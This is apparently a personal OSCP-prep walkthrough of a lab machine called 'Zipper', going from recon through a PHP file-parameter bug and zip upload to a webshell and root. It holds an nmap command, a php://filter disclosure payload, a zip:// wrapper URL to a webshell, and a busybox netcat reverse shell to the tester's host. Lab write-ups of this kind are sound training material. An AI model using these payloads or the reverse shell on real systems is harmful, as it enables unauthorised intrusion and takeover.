


**Start 12:14 06-05-2025**

---
```
Scope:
192.168.145.229
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV zipper -sT -T5 --min-rate=5000 -Pn -vvvv -p-

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Zipper
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/TCP - HTTP


I tried to upload a webshell and see what happens:


Let's boot up `burp` to see what's happening underneath.



I don't see anything unusual happening to my request, however I notice the `/index.php?file=` parameter and instantly think to test it.

### Source Code Disclosure

I go on and start testing it:

```
php://filter/read=convert.base64-encode/resource=config
```




We get a new endpoint called `/home.php`, let's check it's source code:


This gave a massive output, however the relevant part is found below:


Judging from this script I deducted that the function would naturally be called `upload.php`:


>[!success]
>Not gonna lie, I was pleasantly surprised


>[!note]
>So this points to a Zip Upload vulnerability. We can HIGHLY LIKELY exploit this using hte `zip://` PHP wrapper.

Since we know the path of the upload, and we've verified the zip file name (because we downloaded it) we can now put together the URL to get to our webshell:

```
http://zipper/index.php?file=zip://uploads/upload_1746527079.zip%23webshell
```


Hell yeah!

# Foothold
## Shell as www-data

From here I booted up `penelope.py` (I am really trying to familiarize myself with it) and used my favourite linux reverse shell:

```shell
busybox nc 192.168.45.183 443 -e bash
```


And we got access!! EZ PZ


It appears there's no users here.


`/etc/passwd` confirms this, so no `local.txt`?


Sneaky bastards.

### local.txt


# Privilege Escalation
## Sometimes it's right in front of you

As always I start from `/` with my manual enum. I quickly find a `backup.sh` file owned by *root*:


I then started checking how to exploit this but one thing really stuck with me, the bottom part literally mentioned:

```
WildCardsGoingWild
```

What could this mean? Could this be the password to *root*?


Lol, sure is.

### proof.txt


---

**Finished 13:14 06-05-2025**

[^Links]: [[OSCP Prep]]

#zip #php_wrapper #SourceCodeDisclosure #enumeration 